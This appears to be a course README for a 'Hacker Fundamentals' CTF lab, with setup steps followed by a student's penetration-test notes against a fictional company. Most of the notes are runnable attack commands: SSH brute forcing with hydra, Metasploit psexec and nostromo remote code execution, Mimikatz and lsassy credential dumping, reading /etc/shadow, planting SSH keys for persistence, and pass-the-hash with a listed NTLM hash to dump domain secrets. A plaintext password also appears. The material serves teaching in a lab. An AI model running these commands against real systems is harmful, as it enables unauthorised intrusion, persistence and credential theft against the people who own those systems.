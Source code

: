 # Hacker-Fundamentals
Welcome to the Hacker Fundamentals lab setup page !

To be able to participate in the lab exercises and CTF in this course you will need to have:
* An OS on which you will download a VM 
* A VM, either VirtualBox or VMWare 

1) Downloading a VM 
* If you would like to download VirtualBox, please see the instructions at the following URL: 
  https://www.virtualbox.org/wiki/Downloads
* If you would like to download VirtualBox, please see the instructions at the following URL:
  https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html

2) Download Kali VM Image
A Kali VM image has been provided to you at <URL>, depending on your VM of choice please download the appropriate file (VirtualBox or VMWare)
Once the file has downloaded, unzip the file contents and click on the kali-linux-rolling-virtualbox-amd64.vbox file in order to load the Kali image into VirtualBox and if you use VMWare, drag the file to the VMWare application.

3) Downloading a VPN profile 
On your Kali VM, Please visit <URL> , and download the vpn profile that the course instructors have assigned to you. 

4) Load the VPN profile 
Once the VPN profile has been downloaded on your Kali image, open terminal and type the following command :  ``` sudo openvpn --config your_vpn_file.ovpn ```
**Do not close the terminal window where you established a VPN connection, as that will close the connection**

5) Test the VPN connection
Open a new terminal window and type the following command: ```ping IP```, 
if you receive an ICMP response, the connection works and you are now in the lab environment.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  Captain Crunch - Network Pentest
May 29, 2023
--------------------------------

Information provided by client:

domain: captaincrunch.co
IP networks: 10.10.10.0/24, 10.10.30.0/24

blee : 3120f299755272e11e898989265a2196


External Reconnaissance
-----------------------

All whois information redacted by registrar

Monica Garfield works as developer at CC
	Mentions foxtrot container on LinkedIn
	DNS recon found foxtrot.captaincrunch.co host at 64.226.83.128

	Able to login to foxtrot (10.10.10.11) via ssh brute force as Monica!

	hydra -l monica -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.11:22 -t 4

	What if Monica is a user on a Windows system that she does dev work from?

	Let's try using metasploit as her to login to a windows hosts

	msfconsole
	search psexec
	use windows/smb/psexec
	set rhosts 10.10.30.11
	set smbdomain captaincrunch.co
	set smbuser monica.garfield
	set smbpass tinkerbell
	exploit



Mimikatz:

	shell
	cd c:\tools
	.\mimikatz.exe
	sekurlsa::logonpasswords

Impacket:

	impacket-psexec monica.garfield@10.10.30.11


DNS Recon
---------

fierce --domain captaincrunch.co
gobuster dns -d captaincrunch.co -w /usr/share/wordlists/amass/subdomains.lst -i

charlie.captaincrunch.co [64.226.83.119]
delta.captaincrunch.co [64.226.105.183]
echo.captaincrunch.co [64.226.83.135]
foxtrot.captaincrunch.co [64.226.83.128]
golf.captaincrunch.co [64.226.102.67]
india.captaincrunch.co [64.226.110.16]
juliet.captaincrunch.co [142.93.105.226]


Commands used:

cat external | cut -d " " -f 2 | tr -d "[" | tr -d "]" > external.ips
nmap -iL external.ips -Pn --top-ports=1000 --open -oN external.nmap


Internal Recon
--------------

Discovery:
	nmap -sn 10.10.10.0/24 > internal
	nmap -sn 10.10.30.0/24 >> internal
	cat internal | grep report | cut -d " " -f 5 > internal.ips

Port scans:

	nmap -iL internal.ips --top-ports=1000 --open -oN internal-top-ports.nmap

With Metasploit:

	msfdb init
	msfconsole
	db_nmap 10.10.10.0/24 -p-
	db_nmap 10.10.30.0/24 -p-


Interesting Services:

ssh is open (10.10.10.2, 10.10.10.3, 10.10.10.8, 10.10.10.9)
12345 open on 10.10.10.12
31337 open on 10.10.10.9 (likely web server httpd 2.4.38)
	Running wordpress
	WPScan confirmed vulnerabilities 
8000 is open  on 10.10.10.9
55555 open 10.10.10.13 (simplehttpserver ?)
	/credit contains ssh key for tigerwoods
	dirb http://10.10.10.13:55555 /usr/share/wordlists/dirb/small.txt

10.10.30.10 likely domain controller (domain: captaincrunch.co)
Windows hosts (10.10.30.11, 10.10.30.12)
6666 open on 10.10.30.11
5984 and 49153 open on 10.10.30.20 (unusual ports = interesting)
	5984 running couchdb 1.6.0 (RCE available!!)
	49153 running nostromo 1.9.6 (RCE available!!!)
		Exploited with Metasploit
		msfconsole
		use (multi/http/nostromo_code_exec
		set rhost 10.10.30.20
		set rport 32768
		set lhost tun0
		exploit
		

SSH keygen

	ssh-keygen
	enter - enter - enter
	ssh monica@10.10.10.11    tinkerbell
	nano ~/.ssh/authorized_keys
	paste PUBLIC key here
	exit 
	ssh -i private_key monica@10.10.10.11


Linux PrivEsc
	
	./linpeas.sh
	sudo -l
	sudo cat /etc/shadow

Tigerwoods lateral movement:

	ls -la
	chmod 600 tigerwoodskey
	ssh -i tigerwoods@10.10.10.10
	Try to put your private key in authorized_keys like before to get access with your private key

Windows Post Exploitation:

	net user
	net user /domain
	net group "Domain Admins" /domain
	net user ashlie.gwenette /domain
	
Pass the hash:
	
	impacket-psexec -no-pass -hashes :3120f299755272e11e898989265a2196 captaincrunch/blee@10.10.30.10
	
Domain Dump:
	
	impacket-secretsdump -no-pass -hashes :3120f299755272e11e898989265a2196 captaincrunch/blee@10.10.30.10


Commands:

	wpscan --url http://10.10.10.9:31337
	nikto -host 10.10.10.13 -port 55555

 	crackmapexec smb 10.10.30.11 -u monica.garfield -p tinkerbell -M lsassy
